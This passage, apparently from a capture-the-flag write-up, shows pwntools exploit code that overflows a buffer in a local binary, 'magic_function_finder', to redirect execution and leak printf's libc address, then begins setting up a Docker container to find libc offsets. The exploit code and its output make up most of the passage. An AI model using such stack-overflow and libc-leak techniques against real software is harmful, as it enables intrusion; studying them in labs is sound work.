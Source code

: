 ```
padding_rbp = b"B" * 4 + b"C" * 4
addr_of_find_printf = p64(addr_of_find_printf)
print(addr_of_find_printf)
payload = padding + padding_rbp + addr_of_find_printf
print(f"sending payload {payload}")
p.sendline(payload)
p.recvuntil("found printf, it's at:\n")
addr_of_printf = p.recvuntil("\n")
addr_of_printf = str(addr_of_printf).split("\\")[0]
addr_of_printf = str(addr_of_printf).split("'")[1]
print(f"found printf at: {addr_of_printf}")
```

Running this first part of the exploit confirms that we can indeed execute `printf_finder` and 
receive the address of `printf` inside `libc`.

```
[+] Starting local process './magic_function_finder': pid 16865
found find_printf at: 0x401219
b'\x19\x12@\x00\x00\x00\x00\x00'
sending payload b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC\x19\x12@\x00\x00\x00\x00\x00'
found printf at: 0x7f7563e17e10
[*] Stopped process './magic_function_finder' (pid 16865)
```

# Gathering more information

Next we want to use the address of `printf` inside `libc` to calculate the base address of `libc`. To do that
we need to know the offset between `printf` and the base address in the version of libc that is being used.
The author of `magic_function_finder` did not provide us with his libc version but we do know that the application
is running on ubuntu 20.04. We can create an ubuntu 20.04 Docker container and analyse the version of libc on there 
to find the offset between `printf` and the base address of `libc`. 
Let's create a `Dockerfile` as follows:

```
from ubuntu:20.04

RUN apt-get update
RUN apt-get install binutils -y
RUN apt-get install elfutils -y
```

Create a container from this `Dockerfile` with (note the `.`, you have to be in the same directory as the `Dockerfile`):

```
docker build -t ubuntu-test .
```
